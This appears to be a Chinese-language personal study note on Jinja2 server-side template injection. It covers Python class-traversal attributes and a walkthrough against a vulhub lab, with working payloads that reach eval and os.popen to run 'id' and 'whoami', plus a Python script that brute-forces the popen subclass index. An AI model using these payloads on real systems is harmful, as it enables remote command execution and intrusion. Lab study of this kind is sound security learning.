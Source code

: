 ```yaml
---
title: 笔记
categories: [笔记]
comments: true
---
```

# SSTI笔记

## 前言

之前对于SSTI的payload构造不是很了解，今天打算重新学一下，了解payload的构造方法

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 利用点

\_\_class\__

返回对象所属类

![image-20201213174236634](../assets/img/text/image-20201213174236634.png)

\__bases\_\_

以元组的形式返回一个类所继承的类

![image-20201213174528533](../assets/img/text/image-20201213174528533.png)

\__mro__

以元组形式返回类的解析顺序

![image-20201213174614261](../assets/img/text/image-20201213174614261.png)

\__subclasses__()

返回类下的所有子类

![image-20201213174925233](../assets/img/text/image-20201213174925233.png)

\__init__

获取每个类的\__init\_\_函数

funtions.\__globals__

用于获取function所处空间下可使用的module、方法以及所有变量。

![image-20201213175305093](../assets/img/text/image-20201213175305093.png)

## 基本注入思路

利用\_\_class\_\_拿到对应的类、利用\__base\_\_拿到基类、用\_\_subclasses\_\_()拿到可利用的类，尝试利用这些类进行getshell

## 实例

靶场来源于vulhub docker搭建的靶场

访问靶场

![image-20201213180017624](../assets/img/text/image-20201213180017624.png)

尝试检测是否存在注入http://192.168.35.128:8000/?name={{123*2}}

![image-20201213180044688](../assets/img/text/image-20201213180044688.png)

发现得到的结果正好是算术表达式的结果。确定存在注入

输入payload尝试获取类,需要注意的是要打开F12，不然是看不见解析出来的结果的，因为得到的是<class 'object'>，html会将他识别为标签解析，所以在网页上无法直接显示

http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_}}

![image-20201213180220233](../assets/img/text/image-20201213180220233.png)

获取子类http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_[0].\_\_subclasses\_\_()}}

![image-20201213180534161](../assets/img/text/image-20201213180534161.png)





然后如果在html里找太麻烦了，我懒得看，所以可以换一种方式，利用执行语句的方式直接找到函数之后进行命令执行

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  	{% for b in c.__init__.__globals__.values() %}
  	{% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  	{% endif %}
 	{% endfor %}
{% endif %}
{% endfor %}

```

![image-20201213193534127](../assets/img/text/image-20201213193534127.png)

## 后记

之前一直在尝试用popen也就是固定的位置，本机测出来的128索引，但是一直失败，不知道为啥，然后去靶机里面查看了才知道是位置不同，踩了好久的坑。。最后测出来popen函数的位置在117

```python
{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
```

![image-20201213193856764](../assets/img/text/image-20201213193856764.png)

其实也可以利用python写一个简单的脚本遍历这个参数

```python
import requests
for i in range(0,1000):

    url = 'http://192.168.35.128:8000/?name={{"".__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__.popen(\'whoami\').read()}}'% i
    response = requests.get(url)
    if response.status_code == 200:
        print(i)
        break
```

![image-20201213194343290](../assets/img/text/image-20201213194343290.png)

因为错误的时候服务器是返回的500错误码，所以我直接利用200进行判断了，可以根据具体情况修改。